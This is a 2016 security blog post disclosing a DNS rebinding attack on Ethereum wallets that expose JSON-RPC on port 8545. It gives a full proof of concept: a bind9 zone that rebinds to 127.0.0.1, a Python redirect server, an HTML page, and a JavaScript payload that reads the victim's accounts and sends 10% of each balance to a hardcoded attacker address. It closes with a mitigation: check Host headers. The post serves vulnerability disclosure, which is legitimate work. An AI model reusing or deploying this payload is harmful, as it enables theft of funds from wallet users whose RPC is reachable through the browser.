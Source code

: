 !!!
ethereum-wallet-exploit
July 6, 2016
Walking Past Same-origin Policy, NAT, and Firewall for Ethereum Wallet Control
This vulnerability was originally reported to the Etherum Bug Bounty on June 12th, 2016. At the core of this attack is a "DNS Rebinding" vulnerability, in this post I explain the vulnerability, suggest an exploit, and leave you with a complete proof-of-concept exploit solution.
<!--no banner-->
!!!


This vulnerability was originally reported to the Etherum Bug Bounty on June 12th, 2016.

## DNS Rebinding
At the core of this attack is a "DNS Rebinding" vulnerability, I remember learning about this years ago from [RSnake](https://twitter.com/rsnake) on either [ha.ckers.org](https://web.archive.org/web/*/ha.ckers.org) or [xssed.com](http://www.xssed.com). A copy of RSnake's original DNS Rebinding exlpainer video can be found [here](https://www.youtube.com/watch?v=FIQGKIE3Fv0). For those already familiar with the concepts of [DNS](https://en.wikipedia.org/wiki/Domain_Name_System) and [Same-origin Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy) the explanation for malicious domain `scam.rhodey.org` is pretty simple:

1. Publish two DNS A Records, one with the legitimate IP address, the other with `127.0.0.1`
2. Direct a victim to visit `http://scam.rhodey.org`
3. Serve some JavaScript *(scam.js)* from `scam.rhodey.org`
4. After serving, blackhole the victim's IP address using iptables
5. All AJAX requests to `scam.rhodey.org` from *scam.js* now hit `127.0.0.1`

DNS Rebinding attacks are so bizarre because all the hostile traffic you'd usually mitigate through NAT or firewall is coming from **inside the network**, and in this case the victim machine is actually attacking itself! This attack makes it past same-origin policy because same-origin works on domain names not IP addresses.

## The Attack
Ethereum nodes and wallets have standardized on [JSON RPC](https://eth.wiki/json-rpc/API), this is what we'll be attacking. Enabling RPC is a prerequisite for using many "DAPPS" (Decentralized Applications) and [Mist Browser](https://github.com/ethereum/mist) (now deprecated) used to enable RPC by default.

## Nameserver Configuration
The nameserver I'm using is [bind9](https://wiki.debian.org/Bind9) and the malicious domain will be `scam.rhodey.org`. It is crucial that the legitimate IP address of `scam.rhodey.org` be served before `127.0.0.1`, to do this you must compile bind9 from source with the `--enable-fixed-rrset` option and set `rrset-order` in your configuration.

```
### /etc/bind/named.conf.options
options {
  directory "/var/cache/bind";
  dnssec-validation auto;
  auth-nxdomain no;
  listen-on-v6 { any; };
  recursion no;
  allow-transfer { none; };
  rrset-order { order fixed; };
};

### /etc/bind/zones/db.rhodey.org
$TTL 1800 
@ IN SOA ns1.rhodey.org. rhodey.anhonesteffort.org. (
  2016061209 ; Serial
  1800       ; Refresh
  180        ; Retry
  2419200    ; Expire
  1800 )     ; Negative Cache TTL

; Name servers
rhodey.org.    IN    NS    ns1.rhodey.org.
rhodey.org.    IN    NS    ns2.rhodey.org.

; Name server A records
ns1    IN    A    173.255.255.43
ns2    IN    A    173.255.255.43

; Other A records
@     IN    A    173.255.255.43
scam  IN    A    173.255.255.43
scam  IN    A    127.0.0.1
```

## Pretty Lil' Redirect
By convention Ethereum JSON RPC uses TCP port `8545` which means to satisfy same-origin policy we'll need to serve the exploit from `8545` as well, but `http://scam.rhodey.org:8545` looks hella shady so we use a [HTTP 307 Redirect](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/307) to bounce `http://rhodey.org` to `http://scam.rhodey.org:8545`.

```python
import BaseHTTPServer
import time

OUR_HOST  = "rhodey.org"
OUR_PORT  = 80
NEXT_HOST = "scam.rhodey.org"
NEXT_PORT = "8545"
REDIRECT  = "http://" + NEXT_HOST + ":" + NEXT_PORT

class RedirectHandler(BaseHTTPServer.BaseHTTPRequestHandler):
  def do_HEAD(s):
    s.send_response(307)
    s.send_header("Location", REDIRECT)
    s.end_headers()
  def do_GET(s):
    s.do_HEAD()

if __name__ == '__main__':
  server_class = BaseHTTPServer.HTTPServer
  httpd        = server_class((OUR_HOST, OUR_PORT), RedirectHandler)
  print time.asctime(), "Server Starts - %s:%s" % (OUR_HOST, OUR_PORT)
  try:
    httpd.serve_forever()
  except KeyboardInterrupt:
    pass
  httpd.server_close()
  print time.asctime(), "Server Stops - %s:%s" % (OUR_HOST, OUR_PORT)
```

## The HTML
After redirecting the victim to malicious domain we serve some very basic HTML.

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>taker</title>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/2.2.0/jquery.min.js"></script>
  </head>
  <body>
    <div id="logDiv"></div>
    <script src="scam.js"></script>
  </body>
</html>
```

## The JavaScript
The JavaScript does a few things:

1. send a HTTP GET request to `http://scam.rhodey.org/goodbye`, triggering the iptables blackhole.
2. retrieve a list of Ethereum wallets via wallet RPC.
3. send `%10` of each wallets balance to my Ethereum wallet.

Between step 1 and 2 the victim's IP address has been blackholed by iptables such that the browser receives [TCP close with RST flag](https://stackoverflow.com/questions/13049828/fin-vs-rst-in-tcp-connections), this causes the browser to move onto the next record for `scam.rhodey.org` which is `127.0.0.1`... rebind complete! Communication between JavaScript and the Ethereum JSON API is made possible by the Ethereum [web3.js](https://web3js.readthedocs.io) library.

```javascript
var BigNumber    = require('big-number');
var DEST_ADDRESS = "0xbd9864678B27C1932831D462ABFF9471f2f8Dd3c";
var web3         = null;
var logHtml      = "";

function log(msg) {
  var logDiv = document.getElementById("logDiv");
  logHtml += ("<br/>" + msg);
  logDiv.innerHTML = logHtml;
}

function getHref() {
  var parts = window.location.href.split("/");
  return parts[0] + "//" + parts[2];
}

function initW3() {
  log("initializing w3...");
  var Web3 = require('web3');
  web3 = new Web3();
  web3.setProvider(new web3.providers.HttpProvider(getHref()));
}

function takeEthFrom(address) {
  log("getting balance for account " + address + "...");
  var balanceWei = web3.eth.getBalance(address);
  var takeWei = balanceWei.div(10);
  var txn = {
    from  : address,
    to    : DEST_ADDRESS,
    value : takeWei
  };

  log("sending transaction -> " + JSON.stringify(txn, null, 2));
  web3.eth.sendTransaction(txn, function(err, result) {
    if (!err) {
      log("transaction succeeded with result -> " + result);
    } else {
      log("transaction failed with error -> " + err);
    }
  });
}

function takeEth() {
  log("getting account list...");
  var accounts = web3.eth.accounts;
  for (var i = 0; i < accounts.length; i++) {
    takeEthFrom(accounts[i]);
  }
}

function sayGoodbye() {
  log("rebinding dns...");
  $.ajax({
    type: 'GET',
    url: '/goodbye',
    success: function(data, status, xhr) {
      initW3();
      takeEth();
    },
    error: function (data, status, error) {
      log("xhr /goodbye failed, status -> " + status + " error -> " + error);
    }
  });
}

sayGoodbye();
```

## Mitigation
Mitigating DNS Rebinding vulnerabilities is very simple: **always check HTTP Host headers**. The malicious HTTP requests that reach the victim wallet have a [HTTP Host Header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Host) of `scam.rhodey.org` which should be checked against `localhost` and/or a whitelist. In June 2016 the most popular Ethereum implementation [go-ethereum](https://github.com/ethereum/go-ethereum) did not check host headers.

## Proof-of-Concept Source
Everything you need to perform this attack can be found [here in my Github repo](https://github.com/rhodey/eth-rebind).
